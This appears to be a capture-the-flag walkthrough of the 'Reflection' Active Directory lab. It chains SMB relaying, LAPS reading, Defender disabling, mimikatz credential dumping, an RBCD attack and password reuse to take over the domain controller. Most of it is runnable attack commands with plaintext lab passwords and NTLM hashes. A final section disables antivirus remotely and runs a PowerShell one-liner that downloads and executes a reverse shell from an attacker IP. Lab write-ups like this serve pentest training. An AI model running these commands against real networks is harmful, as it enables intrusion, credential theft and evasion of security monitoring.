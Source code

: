 

![](Reflection_.png)


```
SMB         10.10.193.215   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.214   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.213   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
```


## INITIAL_ACCESS


We got guest level access in MS01 , and got a staging_db.conf file.


```
└─# crackmapexec smb ip_ -u guest -p '' --shares

└─# impacket-smbclient reflection.vl\guest@10.10.193.214
```

![](Guest_Ms01.png)


Its the credential of mssql server !


```
└─# impacket-mssqlclient reflection.vl/web_staging:Washroom510@10.10.193.214 
```


![](Mssql_Server.png)




Now , We need to relay the authentication . i.e smb_relaying !  [Blog](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay#performing-the-attack-from-linux)


Attacker

Edit the /etc/responder/responder.conf file , Set SMB and HTTP to 'off'

![](Responder.conf.png)


Then start the responder and ntlmrelay tools !

```
└─# responder -I tun0 -v  
```


```
└─# impacket-ntlmrelayx -tf ip_ -smb2support -i
```



![](Relay.png)




Victim 


```
SQL (web_staging  guest@master)> xp_dirtree \\10.8.0.148\chain\anything
```



WE got connection to the relay attack , Lets connect !

![](Successful_Relay.png)


Cool ! We got access to the Domain Controller and got another conf. file.


![](NetCat_Access.png)



DC also got mssql server , Lets connect to the DC's SQl Server !

```
└─# impacket-mssqlclient reflection.vl/web_prod:Tribesman201@10.10.193.213
```



```sql
enum_db

use prod

SELECT * FROM prod.INFORMATION_SCHEMA.TABLES;

select * from users;
```




![](Mssql_Dump.png)


```
abbie.smith  :::  CMe1x+nlRaaWEw

dorothy.rose  :::  hC_fny3OK9glSJ
```


They are domain Users . Lets enumerate AD !




```
└─# bloodhound-python --username abbie.smith --password 'CMe1x+nlRaaWEw' --domain reflection.vl --nameserver 10.10.193.213 --domain-controller DC01.reflection.vl --collectionmethod all --zip
```



![](Blood_Hound.png)


Abbie.Smith got `GenericAll` privilege to MS01 server ! 

```This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.```


Checking LAPS credentials !

```
Windows Local Administrator Password Solution** (Windows LAPS) is a Windows feature that automatically manages and backs up the password of a local administrator account on your Microsoft Entra joined or Windows Server Active Directory-joined devices.
```


```
└─# crackmapexec ldap dc01 -u "abbie.smith" -p "CMe1x+nlRaaWEw" -M laps
```


![](Laps_Creds.png)




## MS01

```
└─# crackmapexec smb 10.10.205.246 -u MS01$ -p 'H447.++h6g5}xi' --local-auth
```

Local-Auth --> It is computer account not domain-joined .

But this account doesnot have high privilege , Lets check for password Reuse !

```
└─# crackmapexec smb 10.10.205.246 -u administrator -p 'H447.++h6g5}xi' --local-auth
```

As this is the high level user , Now Lets dump some secrets along the way !!

```
└─# impacket-secretsdump MS01/administrator:'H447.++h6g5}xi'@10.10.205.246
```


![](SecretsDump_MS01.png)

Seems Like Georgia.Price have recently Logged-In to the system ! And she got high privilege !!


Lets Grab Mimikatz and Get her credentials from the system !


```
└─# evil-winrm -i 10.10.205.246 -u administrator -p 'H447.++h6g5}xi'
```

Before Runnning mimikatz , disable AV.

```
powershell.exe Set-MpPreference -DisableScriptScanning 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring 1
```

Then , 

```
.\mimikatz.exe "token::elevate" "privilege::debug" "lsadump::sam" "vault::cred /patch" "exit"
```

![](Georgia.Prince_Creds.png)


Cool ! We Got her Credentials . Lets Explore and Penetrate More!

## WS01


![](Georgia_Prince_Hound.png)


```
The user GEORGIA.PRICE@REFLECTION.VL has GenericAll privileges to the computer WS01.REFLECTION.VL.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.
```


This time there isnt LAPS credentials stored in the DC. We gotta do RBCD Attack as we already compromised MS01 we can delegate to WS01.


```
└─# impacket-rbcd 'reflection.vl/Georgia.Price:DBl+5MPkpJg5id' -delegate-from MS01$ -delegate-to WS01$ -action 'write' -dc-ip DC01
```

![](RBCD_.png)

```
└─# impacket-getST -dc-ip dc01 -spn cifs/ws01 'reflection.vl/ms01$' -impersonate administrator -hashes :ce3fff37d339890e91728fde0d381c45
```

![](RBCD_2.png)



Cool ! We impersonated Administrator !!


```
└─# export KRB5CCNAME=administrator@cifs_ws01@REFLECTION.VL.ccache
```

```
└─# impacket-secretsdump -k ws01
```


![](SecretsDump_Ws01.png)

We got Rhys.Garner Credentials ! Lets check his privileges ! He dont have privilege , But Dom_Rgarner might be the higher priv. account of rhys.

![](Dom_Rhys.png)



Yeah , It is and also he reused his credentials for both of his accounts !


![](Dc_Pwned.png)


```
└─# crackmapexec smb dc01 -u dom_rgarner -p 'knh1gJ8Xmeq+uP'
```


The Domain Controlled is Pwned !


## Learned 

SMB relaying 
Generic All Attack 
	--> Read LAPS Credentials
	 --> RBCD Attack
Password Reuse 


## Reverse Shell

We are using atexec to disable windows defender and execute a nishang reverse shell to get access to the box WS01

```bash
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"' 
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -ExclusionPath C:\\"'
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.84/shell.ps1');"
```


```
└─# crackmapexec smb ws01 -u administrator -H a29542cb2707bf6d6c1d2c9311b0ff02 --local-auth --get-file \\Users\\rhys.garner\\Desktop\\flag.txt flag --exec-method atexec
```
